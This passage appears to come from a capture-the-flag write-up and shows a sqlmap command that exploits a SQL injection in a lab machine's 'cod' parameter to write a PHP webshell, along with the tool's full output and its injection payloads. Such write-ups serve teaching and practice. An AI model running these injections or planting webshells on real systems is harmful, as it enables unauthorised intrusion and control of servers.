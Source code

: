 I can use that to do the same phpmyadmin attack as shown above. But I can also use it to write a webshell:

```

root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --file-write /opt/shells/php/cmd.php --file-dest /var/www/html/0xdf.php
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:08:51 /2019-06-28/

[15:08:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; en-US) AppleWebKit/534.18 (KHTML, like Gecko) Chrome/11.0.660.0 Safari/534.18' from file '/usr/share/sqlmap/txt/user-agents.txt'
[15:08:52] [INFO] resuming back-end DBMS 'mysql' 
[15:08:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 8643=8643

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cod=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
---
[15:08:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[15:08:52] [INFO] fingerprinting the back-end DBMS operating system
[15:08:52] [INFO] the back-end DBMS operating system is Linux
[15:08:52] [WARNING] expect junk characters inside the file as a leftover from UNION query
do you want confirmation that the local file '/opt/shells/php/cmd.php' has been successfully written on the back-end DBMS file system ('/var/www/html/0xdf.php')? [Y/n] Y
[15:08:52] [INFO] the remote file '/var/www/html/0xdf.php' is larger (41 B) than the local file '/opt/shells/php/cmd.php' (35B)
[15:08:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 15:08:52 /2019-06-28/

```
